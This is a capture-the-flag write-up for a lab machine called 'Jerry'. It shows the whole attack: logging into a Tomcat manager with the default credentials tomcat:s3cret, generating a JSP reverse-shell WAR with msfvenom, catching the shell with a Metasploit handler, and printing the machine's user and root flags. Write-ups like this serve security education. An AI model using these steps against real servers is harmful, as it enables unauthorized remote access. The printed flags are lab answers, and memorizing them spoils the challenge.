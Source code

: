 144 - Jerry
===========

 quick nmap scan on this machine returns the port 8080 open. This is thedefault Tomcat management port. When logging in we can indeed see that Tomcat 7.0.88 is running. Using the <http://10.10.10.95:8080/manager/status> page, we see it is running under Windows Server 2012 R2 64 bit.

Trying some credentials for the manager page quickly leads to a default password being in use, `tomcat:s3cret`. From there we can use msfvenom to generate a war file that will connect back to give us a reverse shell:
```
❯❯❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.121 LPORT=12443 -f war > rev.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
```

One can then start a metasploit listener on the local host:
```
❯❯❯ msfconsole
[CUT CUT CUT]
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.14.121
LHOST => 10.10.14.121
msf exploit(multi/handler) > set LPORT 12443
LPORT => 12443
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.121:12443 
```

We now need to deploiy the rev.war file on the tomcat server manager page. Then we have to visit the page <http://10.10.10.95:8080/rev/> to launch the reverse shell. This triggers the following on localhost:
```
[*] Sending stage (336 bytes) to 10.10.10.95
[*] Command shell session 7 opened (10.10.14.121:12443 -> 10.10.10.95:49248) at 2018-07-07 21:35:32 +0200

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>More?
```

After some tests, we can simply move to the administrator's desktop and display the flags:
```
C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,604,021,248 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

